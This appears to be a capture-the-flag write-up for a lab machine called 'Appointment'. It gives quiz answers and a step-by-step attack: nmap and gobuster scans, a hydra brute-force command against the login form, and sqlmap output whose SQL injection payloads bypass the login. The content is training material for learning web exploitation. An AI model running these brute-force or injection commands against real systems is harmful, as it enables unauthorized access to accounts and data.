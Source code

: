 # Appointment
## Q&A

We connect to the machine as usual by openvpn.

And here we got some questions to answer.

**What does the acronym SQL stand for?**
-*Structured Query Language*

**What is one of the most common type of SQL vulnerabilities?**
-*SQL injection*

**What does PII stand for?**
-*Personally Identifiable Information*

**What does the OWASP Top 10 list name the classification for this vulnerability?**
-*A03:2021-Injection*

**What service and version are running on port 80 of the target?**
-*Apache httpd 2.4.38 ((Debian))*

**What is the standard port used for the HTTPS protocol?**
-*443*

**What is one luck-based method of exploiting login pages?**
-*brute-forcing*

**What is a folder called in web-application terminology?**
-*directory*

**What response code is given for "Not Found" errors?**
-*404*

**What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?**
-_dir

**What symbol do we use to comment out parts of the code?**
-_#

## Actions

First we scan the machine at all ports

```sh
nmap -p- -Pn {Machine IP}
```

And discover an open http port 

*80/tcp open  http Apache httpd 2.4.38 ((Debian))*

If we try to enter the machine IP to browser we will find an interesting login form

### GoBuster

Let's scan with GoBuster to search for some interesting catalogs

I will use medium 2.3 wordlist to scan the machine

```sh
gobuster dir -u http://{IP} -w {wordlist} -o {output}
```

After 2-3 minutes we get this output
```
/css                  
/fonts                   
/icons/      
/images/              
/js/                  
/vendor/             
```

I've searched for anything in this directories, but nothing useful found

### Hydra 
As soon as we have a login form we can try brute-forcing it by hydra

I found "Top 500" logins and passwords wordlist, so let's try it

```sh
sudo hydra -L {login wordlist} -P {pass wordlist} {IP} http-post-form "/index.php/login:username=^USER^&password=^PASS^:Remember" -v
```

This command had to make almost 250000 tries and it was very slooow
But after almost 30000 combinations hydra "found" two log-pass bundles

```
Log - webvpn
Log - admin
```

I felt something wrong that there were two bundles with the same login, but I tried them and none of 'em gone successful, I decided to leave this idea

### SQL Injection

The tasks gave us a hint about sql injections, so let's try it!
First I manually tried simple injections such as 1=1 or ' in different ways, useless
So we have to use sql map

```sh
sqlmap -r request1 --delay 5 --risk=3 --level=5 --batch
```

It gives us the solution
```
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-4893' OR 3342=3342-- OCGH&password=admin

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 9010 FROM (SELECT(SLEEP(5)))WLrB)-- OfQD&password=admin
```

I just paste the payload to login form and it redirects to the flag ;)

## **Fin**

